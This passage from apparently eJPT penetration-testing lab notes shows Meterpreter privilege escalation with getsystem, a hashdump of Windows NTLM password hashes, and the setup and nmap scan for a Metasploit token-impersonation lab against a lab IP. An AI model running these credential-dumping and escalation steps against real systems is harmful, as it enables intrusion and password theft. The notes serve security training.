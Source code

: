 ```bash
meterpreter > getsystem 
    ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

### Hashes Dump <a href="#hashes-dump" id="hashes-dump"></a>

```bash
meterpreter > hashdump 
    admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:f168d9f8e6c5b893b8c4dfa202228235:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

{% hint style="success" %}
Administrator NTLM Hash: `f168d9f8e6c5b893b8c4dfa202228235`
{% endhint %}

***

## Lab 3 - Token Impersonation <a href="#lab-3-token-impersonation" id="lab-3-token-impersonation"></a>

> 🔬 [Privilege Escalation: Impersonate](https://attackdefense.com/challengedetails?cid=2353)
>
> * Target IP: `10.0.18.30`
> * Check the [🔬Access Token lab here](../../system-host-based-attack/windows-operating-system/access-token.md) that already covered the Incognito tool
> * Metasploit **Token Impersonation with Incognito** inbuilt Meterpreter module
> * [Access Token Impersonation - Description](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/1-system-attack/windows-attacks#access-token-impersonation)

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.0.18.30
workspace -a Impersonate
db_nmap -sV 10.0.18.30
```

```bash
[*] Nmap: Nmap scan report for 10.0.18.30
[*] Nmap: Host is up (0.0022s latency).
[*] Nmap: Not shown: 995 closed ports
[*] Nmap: PORT     STATE SERVICE       VERSION
[*] Nmap: 80/tcp   open  http          HttpFileServer httpd 2.3
[*] Nmap: 135/tcp  open  msrpc         Microsoft Windows RPC
[*] Nmap: 139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp  open  microsoft-ds?
[*] Nmap: 3389/tcp open  ms-wbt-server Microsoft Terminal Services
[*] Nmap: Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 12.17 seconds
```
